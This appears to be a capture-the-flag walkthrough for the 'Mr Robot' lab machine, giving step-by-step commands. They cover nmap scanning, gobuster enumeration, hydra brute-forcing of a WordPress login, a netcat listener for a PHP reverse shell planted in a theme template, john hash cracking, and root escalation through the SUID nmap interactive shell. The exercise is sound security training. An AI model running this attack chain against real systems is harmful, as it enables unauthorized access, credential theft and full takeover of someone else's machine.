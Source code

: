 
MR ROBOT CTF

--------------------
#Initial nmap scan of the given IP address

nmap -sV -sC -oA nmapscan/initial MACHINE_IP

--------------------

#Carry out enumeration on thr given web to find content that has not been indexed i.e say the robots.txt file

On the browser: http://MACHINE_IP/robots.txt

------------------------------

#Directory busting to find hidden directories in the web application

gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

-----------------------------------

#The gobuster gives a lucrative output of a wordpress site and wordpress usually is vulnerable to many attacks
#We attempt bruteforce login using hydra
#This tries to bruteforce the valid username used to login 

hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

-------------------------------
#Bruteforcing the password after getting a valid username
----------------------------------------

hydra -l Elliot -P fsocity.dic MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

#After gaining access we need a php reverse shell to get into the machine hosting the website
---------------------------------------

rlwrap nc -lvnp 53
 where l= listening
	v= verbose
	n= reverse_name lookup
	p= port being scanned
#getting the reverse shell script

Search on the web for the script 

php reverse shell script in raw format, copy the code in the archives or the 404 template in the editor area of the wordpress site and save

Run the script to obtain a reverse shell on your terminal


#Use john to get the backup password
---------------------------------

john md5.hash --wordlist=fsocity.dic --format=Raw-MD5



#Having a fully interactive shell on our target
----------------------------------

python -c 'import pty;pty.spawn("/bin/bash")'

---------------------------

At this point one is able to read the protected txt file

#Heading to root privilege escalation on the target machine.Here we take advantage of the SUID BINARIES
-----------------------------

find / -perm +6000 2>/dev/null | grep '/bin'

#Finding the nmap binary SUID

#GO to GTFOBins to find exploits to SUID binary exploits
-----------------------------
nmap --interactive

!sh
